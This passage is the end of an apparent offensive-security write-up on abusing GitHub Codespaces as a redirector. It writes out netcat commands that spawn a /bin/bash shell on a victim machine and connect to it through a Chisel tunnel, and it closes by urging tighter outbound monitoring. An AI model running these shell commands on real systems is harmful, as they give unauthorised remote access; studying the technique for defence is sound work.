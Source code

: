 We’ll start a Netcat listener using the command nc -lvnp 4444 -e /bin/bash, which listens on port 4444 and spawns a /bin/bash shell upon connection. This allows us to receive a reverse shell from the victim machine once the Chisel tunnel is established.

!!! danger "Start a netcat reverse shell listener on Victim Machine"
    ```bash
    nc -lvnp 4444 -e /bin/bash
    ```
    ![](../images/exfil-codespaces/pivot5.png)

On the attacker’s machine, we need to run nc 127.0.0.1 4444 to establish a connection to the forwarded port. This will initiate the reverse shell, allowing us to gain command-line access to the victim machine through the Chisel tunnel.

!!! info "Connect to port 4444 on the Codespace Machine"
    ```
    nc 127.0.0.1 4444
    ```
    ![](../images/exfil-codespaces/pivot6.png)

## CLOSING NOTES

In summary, while GitHub Codespaces was designed to streamline development workflows, its trusted status, ease of deployment, and ability to expose public HTTP/HTTPS endpoints make it an attractive target for abuse in adversarial scenarios. We demonstrated how it can be repurposed as a traffic redirector for data exfiltration and even explored its potential for reverse shell communication—albeit constrained by its protocol limitations (HTTP/HTTPS only). However, it’s important to note that Codespaces are ephemeral by design; environments can be torn down after periods of inactivity, and exposed ports may become unstable or inaccessible over time. These factors introduce reliability challenges for long-running operations or persistent C2 channels. Nonetheless, the technique showcases how trusted cloud-based developer tools can be subverted for malicious use, reinforcing the need for tighter monitoring and outbound traffic controls even to seemingly benign services like GitHub.